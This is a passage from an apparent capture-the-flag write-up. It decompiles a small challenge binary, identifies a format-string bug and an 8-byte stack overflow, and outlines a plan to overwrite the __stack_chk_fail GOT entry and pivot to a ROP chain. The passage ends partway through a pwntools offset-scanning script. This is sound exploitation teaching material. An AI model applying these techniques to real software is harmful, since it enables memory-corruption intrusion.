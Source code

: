 ```c
undefined8 FUN_00400737(void)

{
  long in_FS_OFFSET;
  char local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  printf("What is your name: ");
  FUN_004007fc(0,local_118,0x120);
  printf("Hello ");
  printf(local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

That's it. (`FUN_004007fc` is just a frontend to `read`.)

There's at least three vulnerabilities:

1. `printf(local_118)`--format string is missing.
2. An 8 byte overflow if the canary is known; `local_118` is `0x118` bytes from the return address (see Ghidra stack diagram), and `FUN_004007fc` is reading up to `0x120` bytes.  This allows for a single 8 byte payload (gadget or pivot).
3. A format string exploit can overwrite the GOT, the stack, and any other writable region of memory; and read just about anything.

Since there's no loop and no obvious one-shot solution, overwriting `__stack_chk_fail` GOT to jump to `main` (`FUN_00400737`) for infinite passes is the first step, then corrupting the canary (bof) on each pass will score another pass.


## Exploit(s)

### Option 1: ROP chain on stack and pivot

First, we have to find the offsets in the stack for all the leaks and format strings.  Normally I'd just run the binary in GDB, set a break point just before the vulnerable `printf` and then examine where my input was on the stack.  But lately I've been just writing something like this:

```python
#!/usr/bin/python3

from pwn import *

def scanit(binary,t):
    context.log_level='WARN'
    p = process(binary.path)
    p.recvuntil('name: ')
    p.sendline(t)
    p.recvuntil('Hello ')
    _ = p.recvline().strip()
    p.close()
    return _

def findoffset(binary):
    for i in range(1,20):
        t = '%' + str(i).rjust(2,'0') + '$018p'
```
